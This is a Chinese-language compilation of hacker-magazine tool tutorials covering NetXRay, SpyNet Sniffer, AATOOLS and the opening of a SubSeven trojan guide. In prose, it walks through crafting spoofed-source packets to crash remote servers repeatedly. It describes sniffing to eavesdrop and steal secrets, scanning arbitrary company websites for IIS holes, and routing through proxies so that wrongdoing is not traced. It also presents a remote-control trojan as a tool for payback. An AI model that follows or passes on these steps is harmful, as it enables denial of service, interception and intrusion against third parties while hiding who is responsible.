

图 5-21

在这里你可以设置向一台远程机器发送信息包。点击第三个按钮，会出现一个对话框让你设置信息包的大小尺寸以及发送的节点是循环发送还是设定几次发送。信息包的数据是十六进制的样式，还有一个解码部分让你选择。我选择过 Data 的样式，然后用第一个按钮来发送。点击第三个按钮你可以选择把你刚刚截获到的信息数据包给发送出去。在这里建议你这个部位最好是慎用。我曾在测试中致使一台远程机器死机数次。但是如果操作不正确的话有可能把自己搞下线，所以这里只有你自己去琢磨了。

用 NetXRay 也可以对一台远程服务器发起伪装攻击，这个就需要高级用户来测试了。而且现在很多服务器面对此类的攻击根本就是不堪一击的。你可以照着上面所说的生成一个比较正常（这种正常所指的是不要过于大尺寸，类似于像几个 ping 等类的就足够了）的信息数据包，再用 FTP 或者 telnet、gopher 等方式连接到你所要攻击的目标机器后发送这个信息数据包给它，然后再用 NetXRay 把它截获下来。接着修改这个数据包，找到 Source IP 的那个 offset，把它改成随便一个 IP（什么是随便一个 IP？当然是你看着想是一个 IP 的形式就是随便一个 IP 了，美国白宫的主机 IP 都成）。顺着找出关于校验和的地址（这个校验和的地址在哪里啊？问我？呵呵，问我你还不如问问 NetXRay 了），改好校验和，最后把这个信息数据包复制起来，再拿到上面的那个界面上发送给目标机器。不凭别的，就凭 NetXRay 的发送信息数据包时的那种快感（一秒钟可以发出几千个耶），用那么几十分钟，你就可以让这台机器死个几次（那要看这台机器的承受能力啦，说不准几十分钟可以让它死个近十次也都不敢保证哦）。关于这个你看了还不明白就别问我了，我不会告诉你的。问也是白问，因为我一直想做一个网络中的道德者。

在 NetXRay 中，其实在局域网上，它可以在口令截获方面做得更好一点，要是与天行的网络刺客合作起来那简直就是局域网中的最佳拍档。从理论上讲，这个环节可以推行到广域网之中的,但是它的可实现性毕竟很小,我尝试过数百次,效果有是有,但是不明显,也很麻烦。

上面所说的只是我能表述到的,其实 NetXRay 中有很多功能这里还并未提到。没提到就不能说是没有,如果众位有人能更清楚 NetXRay 在其他方面的用途也麻烦你能告诉我一声,我将不胜感激。

## 网络间谍——SpyNet Sniffer

网络嗅探器 SpyNet Sniffer 是一款极好的网络监听工具,由 Spynet 公司出品,也称得上是一款名副其实的“网络间谍”软件,包含 telnet, POP, ICQ, HTTP, login 等等。使用平台可以是 Win9x/Win NT/Win2000,但是记得要有 IE 4 以上版本的浏览器支持。它不仅可以告诉你谁已经连接到你的系统,而且告诉你他正在做什么,如果有人攻击你的系统,SpyNet Sniffer 可以为您攫取证据。

该软件非常小,仅仅 2.3MB,安装非常简单。安装好之后分 CaptureNet 和 PeepNet 两个部分,看名字也知道该是做什么用的了。与 NetXray 相比,它占用系统资源较小,使用起来也相对容易一些,并且能重组信息包构成里的 TCP sessions, E-MAIL 信息, POP3 登录信息,等等;还能实现 cookies 伪装。现在嗅探器部分已经可以在 Windows 2000 下运行,用 2000 上网顺手的朋友不妨试一试。

在局域网内 SpyNet Sniffer 的作用显得非常有用,我们可以利用它了解自己的系统、监听自己的网络状况、数据传输,还可以进行偷听、窃密等等。

下面我们就开始看看该软件的安装、界面、设置。

安装比较简单,与一般软件一样,依据提示点击“Next”和“Yes”按钮,一直到“Finish”按钮。在此过程中默认的安装方式是典型安装,完成后包含“CaptureNet”和“PeepNet”两个软件。安装完成后首次运行 CaptureNet,会弹出设置界面,如图 1。



图 1

对于一般的拨号上网用户,选择第一项“拨号适配器”,局域网用户选择第二项,即绑定网卡,确定后进入使用界面。对于 Action 项,当缓冲器满的时候,有 3 种选项:
- 1. 清刷缓冲器的文件：a) 重新写入覆盖原文件。b) 扩展文件大小。不过很快文件会变很大。
- 2. 外部内存缓冲：不用硬盘操作，直接覆盖原来的捕获记录。
- 3. 停止捕获。

在此你还可以设置捕获信息的文件名，选中对号时，记录文件有覆盖和扩展两种方式。后面是记录文件路径，记录文件运行的界限值。

Miscellaneous 项中告诉你内存分配量，并告诉你当捕获的数据包的值为多少时，peepnet 可以进行分析。



图 2

我们看看图 2，MAC 地址显示适配器在硬盘上的地址。IP address 表示本机的 IP 地址，现在我们已经可以使用了，只要点击图 3 中 Start capture 图标，旁边那个打着呼噜的家伙立刻精神起来，监视着你的网络运行情况。剩下的工作就要你来分析数据包了。



图 3

再看看界面上其他部分的功能，先从工具栏开始，图标重新设置缓冲块数，清除数据包列表和内存的缓冲块数，使已收数据包重置为 0；图标打开一个先前捕获并保存的后缀为 cap 的文件；图标表示捕获后用这个按钮保存捕获的数据；Adapter 显示一个选定的适配器网络名；Packets in 显示缓冲数据包数；PeepNet 可启动 peepnet。要注意的是当捕获时，图标是不可用的。

按钮下方分别是硬件过滤器 HardWare Filter 和软件过滤器 Software Filter。

硬件过滤器 HardWare Filter 如图 4，有 5 种模式可供选择：Promiscuous（混杂模式）的过滤器，告诉 capturenet 所有捕获的数据包；Directed 直接连接的过滤器，告诉 capturenet 捕获的数据包到适配器，不向适配器发送数据包；Multicast 多点传送过滤器，告诉 CaptureNet 捕获到的多点传送包；All Multicast 完整的多点传送过滤器，告诉 CaptureNet 捕获到的所有多点传送包；BroadCast 广播过滤器，告诉 CaptureNet 捕获到多点广播包。



图 4

软件过滤器 Software Filter 如图 5，

黑客防线精华本 2001





图 5

图 6

右边上方的大窗口如图 6 显示 CaptureNet 捕获的数据包，右边下方的小窗口如图 7 显示的是具体数据包中的内容，会同时显示 16 进制数据和对应的 ASCII 字符。



图 7

软件过滤器 Software Filter：点击 Modify Filter 修改过滤器按钮即可对其进行设置如图 8，



图 8

它可以设置具体的数据包捕获类型 Layer 2,3 指定内容数据包的捕获 Pattern Matching，指定 IP 地址数据包的捕获 IP Address，指定端口数据包的捕获 Port 等等；其中指定数据包捕获类型 Layer 2,3 中可以直接指定具体的数据帧类型 frame 和具体的协议 Protocol。

Unselect 使得带有红点的包从已经选择的数据包中移出。Find 将与软件过滤器匹配的数据包用红点符号选中。

CaptureNet 记录着你的机器上的数据，在你完成数据捕获并保存后，你就可以利用 PeepNet 对数据包进行分析。在 PeepNet 下，你只要去读你保存的 *.cap 文件，仔细分析，如果有人在攻击你，相信你一定可以找到攻击者的 IP 地址。


> Advanced Administrative Tools ( 又称 AATOOLS ) 是 G - LOCK 软件公司出品的网络增强管理工具，此工具功能强大、全面，可以成为任何一名网络管理员的好助手。下文对其进行详尽介绍。

## 一、AATOOLS 简介

安装好 AATOOLS 后，我们当然先要启动它。首先软件会要求你输入注册码，下一步，进入了 AATOOLS 的主界面，整个界面十分简洁，其中最主要的就是 Tools 的工具栏了，也就是第二行的快捷菜单，从左到右依次是 PORT SCANNER ( 端口扫描器 )、PROXY ANALYZER ( 代理分析器 )、CGI ANALYZER ( 通用网关接口分析器 )、EMAIL VERIFIER ( EMAIL 验证工具 )、LINK ANALYZER ( 超级连接分析器 )、WHOIS ( WHOIS 查询工具 )、NETWORK STATUS ( 网络状况 )、PROCESS INFO ( 进程信息 ) 和 SYSTEM INFO ( 系统信息 ) 共 9 个小类组成。

## 二、AATOOLS 使用指南

我们先从左边第一个快捷方式开始依次进行介绍。

### 1. PORT SCANNER（端口扫描器）

首先点击一下 PORT SCANNER 工具( 端口扫描器 )的快捷方式，我们就要开始了( 如图 1 )。



图 1

在这个工具中，最主要的是如何设置 PORT，也就是端口，这个工具已经附带了几乎所有的已知端口，按一下右上方的 Port Setup 键 ( 见图 2 )，



图 2

可以看到，从 1 - 60000 的已知开放的端口都有比较详细的说明( 在端口后面的描述栏里面 )，通常我们要做的就是选择右上方的 Select All 或者 Deselect All，同时也可以选择左上方的 Port Sets( 端口类 )，其中共有 5 类端口( NSF、HSF、PROXY PORTS、EVERYTHING、TROJAN )，你可以选择试试看，同时这里也是你学习端口功能的一个好地方。最下方的那个 Insert 键是给我们用来自行设定未知端口的。好，我们试试！按下 INSERT，我们可以发现，刚才灰色的 add/change port info 的文本菜单现在变成高亮显示了，试着输入一下他们没有设置的端口。Port 那里输入 7626，Description 里我们可以这样输入：木马工具“冰河”所开的端口，按 Insert，把滚动条往下拉到 7777 ( 系统已设置的端口 )，找到了，7626 的端口已经上去了。如果你不喜欢，可以按下面的 Delete 把这个设置删除掉。怎么样，很方便吧。

注意：有一些非常重要的端口它没有设置，比如 3389 ( Windows 输入法漏洞的端口 )、7626 ( 冰河所开的端口 ) 等，大家可以自行设置。

当所有端口设置完毕后，按 OK 返回主界面。

好了，进攻要开始了，我们将以我们自己的网站“异域天空网络安全中心” http://www.collinsgu.com 进行测试。

在 HOST NAME 里填入：www.collinsgu.com 后按 Lookup，这步是为了 Ping 出网址的 IP，然后按 Add 键，网站的 IP 即添加成功。当然如果你知道一个网站 IP 的话，直接 Paste 到下面的 host name/ips for scan 里就行了。大家可以参考 ( 图 1 ) ( 一般左上方的进程数和连接超时时间可以不用更改，使用默认值即可 )，还有一点很重要的：如果你要用这个软件搞一些小故事，那么千万不能忘了使用代理服务器，左上方的 use socks proxy 就是，它支持 Socks4 和 Socks5 两种代理。其他几个工具也都支持 Socks 的 Proxy。我们把 PORT sets 设置为 Everything ( 这样测试最全面 )，然后按下上方的 Scan 键，激动人心的时刻就要到了。右边的 Results 栏里出现了我们扫描的主机所开的端口 ( 见图 3 )。



图 3

然后……就随便你了。现在你可以把扫描的结果保存下来了，嗯，就按那个 Save，可以存成 *.txt 的文件，这样以后也方便调用，只要按 Load 就行了。还有，那个 Stop 旁边的 network PC 按键是用来搜索局域网内部机器的，你不妨自己试试。

AATOOLS 的设置大同小异，只要你熟练掌握了一个工具的设置和使用，其他所有的工具也能基本使用了。

### 2. PROXY ANALYZER（代理验证器）

我们继续看第二个工具——PROXY ANALYZER（代理验证器）。

这个工具感觉上和 PROXY HUNTER 差不多，但是比代理猎手稳定得多了，可能是我的线程设得少的缘故。（见图 4）


图 4

一般 SETTING 里不用设置，用默认值即可，当然你也可以用自己的设置。

把搜索到的代理服务器填入 HOST NAME OR IP ADDRESS，选择左边的端口后，点击 Add 就可以了，它会进行初步验证。如果成功的话，下面的那个表格里就会出现我们要验证的 PROXY 了，然后？按 START，对，就这么简单。验证以后，所有的参数都会在那个表格中列出。怎么样，比 PROXY HUNTER 详细多了吧。

这个工具同时可以验证 Http 和 Socks 的代理，最下方有 LEGEND 的图式注解，非常直观的。

### 3. CGI ANALYZER（通用网关接口分析器）

下面为大家讲解 AATOOLS 中最实用的工具——CGI ANALYZER（通用网关接口分析器），其实叫“漏洞扫描器”来得直观一些。

我们先来看看 CGI SETUP 里如何设置：（图 5）


图 5

如图所示，和 PORT SCANNER 的 SETTING 设置差不多，也有 Add，也能选择 SET (类)，通常我们在这里选择的应该是 ALL，这样所有的漏洞都难逃你的掌握，当然如果你有新发现的漏洞，也可以自己手动 ADD。同时，AATOOLS 的版本越高，所能测到的漏洞也越多。顺便说一下：由于未注册版本的功能限制，我们现在使用的是 4.00C 版，同时我们还测试了 4.30 的版本，感觉更好，不论是界面还是内容。

设置完毕，开始扫描漏洞。

同样，我们以“异域天空网络安全中心” http://www.collinsgu.com 为例。（见图 6）


图 6

幸好我们的站点还是比较安全的，大多数的 IIS 默认设置都已关闭（有些默认设置非常不安全），即使开放了一些，也都被 FORBIDDEN 了，当然除了那个 GUESTBOOK.CGI 的脚本。应该说那是 ISP 的功劳，但是大多数的网站是没有那么专业的，比如一些企业自行架设的站点，大都不更改默认设置的，随便找一个试试吧，不过不要干坏事啊。我们测试了一些站点，好像这个软件对于 Asp 的扫描更全面一些，我们发现了不少网站的 IIS 漏洞，比如 IISadmpwd 没有关闭，等等。鉴于安全考虑，我们就不对这些网站进行公开了，大家可以自己测试一下。毕竟在 NT 下的漏洞要比在 LINUX 下的多得多。还有，别忘了找个 PROXY，否则你要是做坏事的话会被发现的，因为一般的网站上都有 IP 访问记录。

现在大家应该对这个软件有了一个感性的认识了，其实 AATOOLS 的精华就是这三个小工具了。

### 4. EMAIL VERIFIER（EMAIL 验证工具）

下面让我们来看看 EMAIL VERIFIER (EMAIL 验证工具)。其实类似的工具有很多，这个功能一般、性能也一般。

好，我们先看看 SETTING。MY GOD 又是一大片不认识的 E 文，那就算了，不更改了，反正也不需要更改的。在 ENTER EMAIL ADDRESS ONLY 栏里填入一个 EMAIL 按 ADD。怎么 LOCATION 一下子就知道了 (CHINA)？是的，这其实也不是什么高深的学问，它根据的是 .cn 的后缀来判断的，不信你试试输入：.com 后缀的，怎么样，LOCATION 不是变成 COMMERCIAL 了吗。下面我们就 START。验证后的结果（如图 7）。



图 7

其实这个功能也没有什么特别的，就是为了验证你所知道的 EMAIL 是否正确，一个两个 EMAIL 的输入很方便，成千上万个呢？不急，这个工具支持 LOAD（导入）的，你可以自己看看它自带的那个 ExampleEmail.txt 文件。

### 5. LINK ANALYZER（超级连接分析器）

我们继续，下面该看看 LINK ANALYZER（超级连接分析器）。非常简单，启动后它会自动搜索你 C 下的所有.URL 文件，然后按 CONNECT 就可以进行验证了。这里我们就不进行详细介绍了，大家可以参考上面介绍的 EMAIL VERIFIER（EMAIL 验证工具）。

下面一个 WHOIS 查询也很简单，只要在 HOST NAME OR IP 里填入你要查询的域名或者该服务器的 IP 地址，然后 START，什么信息都出来了。（见图 8）



### 6. NETWORK STATUS（网络状况）

这个工具非常实用。简单的界面，只要设置是否为 AUTO REFRESH 和刷新时间就可以了。我们建议：如果你的机器还过得去（MMX200 以上），请选择 AUTO REFRESH，你会知道选择了以后对你的帮助有多大的。

看看我们提供的图解（见图 9），



图 9

这是一幅我们在联网时的抓图。

从左到右依次是：PROTOCOL（所使用协议）、LOCAL IP（本地 IP 地址）、LOCAL PORT（本地所开端口）、REMOTE IP（远程 IP）、REMOTE PORT（远程所开端口）、STATUS（状况）。是不是很直观，这里要说明的是：4000 是 OICQ 默认的固定端口（如果安装了 QQ 的插件那就另当别论），192.168.0.1 是我们的机器在局域网内的地址，61.169.71.2 就是我们在网上的 IP 地址了。这样我们就可以看到和我们本地机器建立连接的远程主机的 IP 地址和所开端口。知道怎么查 OICQ 上陌生人的 IP 地址了吧？一般我们可以检测 4000 那个端口所对应的远程 IP 的。毕竟现在 QQ 的插件都是用来显示好友 IP 的。但是你是不会去轰炸自己的好友的啊。其实这个功能和 Windows 的 NETSTAT 命令差不多，但是方便不少，有兴趣的朋友也可以在 MS DOS 方式下，对 NETSTAT.EXE 进行测试。还有必要说明一下的就是 STATUS 里的那几个 E 文描述，否则有可能困扰大家。“LISTEN”表示监听中，“TIME_WAIT”表示正在连接，“ESTABLISHED”表示连接已建立。好了，对于 NETWORK STATUS 的介绍就到这里。

### 7. PROCESS INFO（进程信息）

下面我们该介绍 PROCESS INFO（进程信息），也就是所谓的进程管理器。

在这个工具中，我们可以清楚地看到 CPU 当前的进程情况，包括 CPU 当前使用进程，CPU 使用情况，进程所调用的模块、文件路径，CPU ID、模块 ID 等，如果发现错误，或者非法进程的话，我们可以利用它的选项“TERMINATE PROCESS（终止进程）和 DELETE MODULE（删除模块）”来进行管理。（见图 10）

### 8. SYSTEM INFO（系统信息）

最后让我们来看看 SYSTEM INFO（系统信息）工具，这个工具可以显示你机器几乎所有的相关信息：WORK STATION、OPERATING SYSTEM、CPU、MEMORY、DISPLAY、DRIVERS、ENGINES、PRINTERS、DEVICES、NETWORK、MEDIA、APM。真是应有尽有了。见图 11

## 三、结束语

好了，这么一个优秀的工具软件 AATOOLS 终于介绍完了。古语说得好：“水能载舟，亦能覆舟”。希望大家能妥善使用这个软件，尽量为中国的网络安全工作多出点力，这是我们介绍这个软件的初衷。目前 AATOOLS 的最新版为 4.30，需要注册，不注册的话有 30 天的时间限制和一些功能上的使用限制。

## 黑客首选利器——SubSeven

以前和朋友聊天，谈到计算机的网络安全，总是少不了黑客的话题。我以前认为黑客总是那么神秘，离我们太远。直到有一天，我的机器突然一下子变得特别慢，而且一会儿就自动重起了好几遍，我对此很茫然，不知是怎么回事，后来跟同事谈起此事，才知道是有人通过黑客软件在远程控制我的计算机，这就是我对黑客的初步印象。后来我通过对一些黑客软件的研究，发现以前控制我计算机的黑客也只是一些刚入道的小菜，真正的黑客是不需要依赖别人编写的工具来实施攻击的，而是自己编写程序。所以我决定以姑苏慕容世家的“以彼之道，还施彼身”，来给这些自认为是黑客的小菜们一点颜色看看，不过我本身也是一个刚接触黑软的小菜，所以也必须借用别人现成的工具。一个简单有效的黑客工具对于我们这些刚接触这一领域的人是特别重要的，所以我选择了特洛伊木马法，木马我选择了最新的 Sub7 V2.1（可能还有新版本），这是一个非常优秀的木马程序，功能很强。首先允许我介绍一下 Sub7 的“光辉历史”吧，然后再跟大家探讨该软件的具体用法。

## 一、SubSeven 基本配置

据称该木马首先在日本被发现，一封附件为“server.exe”的电子邮件在日本蔓延，该附件声称本身是一个可以清除 Pink-worm 病毒的反病毒软件，但实际上是一个名为 SubSeven Server 的木马。该电子邮件是来自一个日本的 Hotmail 账号，并声称来自微软在日本的服务器。该电子邮件要求收到邮件的人运行附件中的 server.exe 以保护计算机免受 Pinkworm 病毒的侵袭，但实际上根本没有 Pinkworm 病毒。该程序起服务器程序的作用，它允许远程控制者操纵你的计算机和获取你计算机上的资料，提供了查找、获取、发送文件，窃取密码，改变颜色、设定，放音设备音量，改变日期和时间等功能。而且在短时间内该工具迅速从 1.0 版升级到现在的 2.1 版……够快的！而且功能上也有了相当大的改进，所以大家千万别拿它来做坏事噢。不过万一有一天遇到黑你的人，你也可以给他一点颜色看看，千万别跟我一样，被别人黑了，一点脾气都没有，最后只有落到关机或者拔网线的份了，这些我不想再提起了，让大家见笑了。现在言归正传，首先请大家看一下 Sub7 的启动画面如图 1 所示：够酷吧！

